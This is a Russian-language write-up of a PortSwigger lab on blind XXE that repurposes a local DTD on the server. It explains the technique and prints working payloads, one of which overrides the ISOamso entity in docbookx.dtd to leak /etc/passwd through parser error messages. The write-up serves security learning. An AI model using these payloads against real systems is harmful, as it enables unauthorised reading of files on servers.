 # Exploiting XXE to retrieve data by repurposing a local DTD

## Theory

<h3>Использование слепого XXE путем перепрофилирования локального DTD</h3>

Предыдущий метод прекрасно работает с внешним DTD, но обычно он не работает с внутренним DTD, полностью определенным в элементе DOCTYPE. Это связано с тем, что этот метод включает использование объекта параметра XML в определении другого объекта параметра. Согласно спецификации XML, это разрешено во внешних DTD, но не во внутренних DTD.

Так что насчет слепых уязвимостей XXE, когда заблокированы внеполосные взаимодействия? Вы не можете эксфильтровать данные через внешнее соединение и не можете загрузить внешний DTD с удаленного сервера.

В этой ситуации все еще может быть возможно вызвать сообщения об ошибках, содержащие конфиденциальные данные, из-за лазейки в спецификации языка XML. Если DTD документа использует гибрид внутренних и внешних объявлений DTD, то внутреннее DTD может переопределять сущности, объявленные во внешнем DTD. Когда это происходит, ограничение на использование объекта параметра XML в определении другого объекта параметра ослабляется.

Это означает, что злоумышленник может использовать основанный на ошибках метод XXE из внутреннего DTD при условии, что используемая им сущность параметра XML переопределяет сущность, объявленную во внешнем DTD. Конечно, если внеполосные соединения заблокированы, внешний DTD не может быть загружен из удаленного места. Вместо этого это должен быть внешний файл DTD, локальный для сервера приложений. По сути, атака включает в себя вызов файла DTD, который существует в локальной файловой системе, и переназначение его для переопределения существующего объекта таким образом, который вызывает ошибку синтаксического анализа, содержащую конфиденциальные данные.

Например, предположим, что в файловой системе сервера в расположении /usr/local/app/schema.dtd есть файл DTD, и этот файл DTD определяет объект с именем custom_entity. Злоумышленник может инициировать сообщение об ошибке синтаксического анализа XML, содержащее содержимое файла /etc/passwd, отправив гибридное DTD, подобное следующему:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Это DTD выполняет следующие шаги:

* Определяет сущность параметра XML с именем local_dtd, содержащую содержимое внешнего файла DTD, существующего в файловой системе сервера.
* Переопределяет сущность параметра XML с именем custom_entity, которая уже определена во внешнем файле DTD. Объект переопределен как содержащий эксплойт XXE на основе ошибки, который уже был описан, для запуска сообщения об ошибке, содержащего содержимое файла /etc/passwd.
* Использует сущность local_dtd, чтобы внешнее DTD интерпретировалось, включая переопределенное значение сущности custom_entity. Это приводит к желаемому сообщению об ошибке.

<h3>Поиск существующего файла DTD для перепрофилирования</h3>

Поскольку эта XXE-атака включает в себя перепрофилирование существующего DTD в файловой системе сервера, ключевым требованием является поиск подходящего файла. Это на самом деле довольно просто. Поскольку приложение возвращает любые сообщения об ошибках, выдаваемые синтаксическим анализатором XML, вы можете легко перечислить локальные файлы DTD, просто попытавшись загрузить их из внутреннего DTD.

Например, системы Linux, использующие среду рабочего стола GNOME, часто имеют файл DTD в /usr/share/yelp/dtd/docbookx.dtd. Вы можете проверить наличие этого файла, отправив следующую полезную нагрузку XXE, которая вызовет ошибку, если файл отсутствует:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

После того, как вы проверили список общих файлов DTD, чтобы найти существующий файл, вам нужно получить копию файла и просмотреть ее, чтобы найти сущность, которую вы можете переопределить. Поскольку многие распространенные системы, включающие файлы DTD, имеют открытый исходный код, обычно вы можете быстро получить копию файлов с помощью поиска в Интернете.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/4.png)

Модифицируем запрос и отправляем его. Код экплоита:
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/5.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_to_retrieve_data_by_repurposing_a_local_DTD/assets/6.png)
